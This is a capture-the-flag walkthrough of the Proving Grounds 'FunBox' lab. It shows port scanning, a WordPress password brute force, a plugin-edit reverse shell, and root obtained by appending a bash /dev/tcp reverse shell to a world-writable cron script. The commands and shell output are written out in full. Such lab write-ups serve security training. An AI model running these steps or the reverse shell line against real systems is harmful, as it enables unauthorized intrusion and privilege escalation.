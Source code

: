 ```yaml
---
layout: default
title: FunBox
parent: Proving Grounds Play
nav_order: 28
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.218.77
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-15 21:49 EST
Nmap scan report for 192.168.218.77
Host is up (0.059s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION                                                                         21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d2:f6:53:1b:5a:49:7d:74:8d:44:f5:46:e3:93:29:d3 (RSA)
|   256 a6:83:6f:1b:9c:da:b4:41:8c:29:f4:ef:33:4b:20:e0 (ECDSA)
|_  256 a6:5b:80:03:50:19:91:66:b6:c3:98:b8:c4:4f:5c:bd (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://funbox.fritz.box/
| http-robots.txt: 1 disallowed entry
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

# Enumeration

---

## 80 | HTTP

Wordpress site at _funbox.fritz.box_

### WPscan

```bash
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Run WPScan brute force attack

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ wpscan --url http://funbox.fritz.box --disable-tls-checks -U users.txt -P /usr/share/wordlists/rocky
ou.txt

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345
[SUCCESS] - admin / iubire
Trying admin / violet Time: 00:00:18 <                          > (670 / 28689453)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

Authenticate to Wordpress as with _admin:iubire_

# Exploitation

---

Attempting Hello Dolly plugin edit exploit.

![dolly1](../../../assets/images/ctfs/proving_grounds/funbox/dolly1.png)

Add the PHP reverse shell script and edit.

![dolly2](../../../assets/images/ctfs/proving_grounds/funbox/dolly2.png)

Activate the Hello Dolly plugin and get a reverse shell.

![dolly3](../../../assets/images/ctfs/proving_grounds/funbox/dolly3.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 49092
Linux funbox 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:14:29 up 28 min,  0 users,  load average: 0.00, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

TODO

- look for wp-config.php

```bash
www-data@funbox:/var/www/html$ cat wp-config.php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'wordpress');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

Only shows the users we already have access to.

Switch to Joe.

Enumerate user _funny_ home directory and locate a _.backup.sh_ that is creating a backup of _/var/www/html_ every 1 minute.

```bash
joe@funbox:/home/funny$ ls -la
ls -la
total 47592
drwxr-xr-x 3 funny funny     4096 Aug 21  2020 .
drwxr-xr-x 4 root  root      4096 Jun 19  2020 ..
-rwxrwxrwx 1 funny funny       55 Aug 21  2020 .backup.sh
lrwxrwxrwx 1 funny funny        9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 funny funny      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 funny funny     3771 Feb 25  2020 .bashrc
drwx------ 2 funny funny     4096 Jun 19  2020 .cache
-rw-rw-r-- 1 funny funny 48701440 Nov 16 03:36 html.tar
-rw-r--r-- 1 funny funny      807 Feb 25  2020 .profile
-rw-rw-r-- 1 funny funny      162 Jun 19  2020 .reminder.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html

```

_.backup.sh_ is world writeable so we can edit this script to give us a reverse shell as _root_ user.

```bash
joe@funbox:/home/funny$ echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1
```

After a couple minutes we get a reverse shell as _root_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 41312
bash: cannot set terminal process group (4896): Inappropriate ioctl for device
bash: no job control in this shell
root@funbox:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# whoami
whoami
root
root@funbox:~# cat /root/proof.txt
cat /root/proof.txt
3d96************************
```
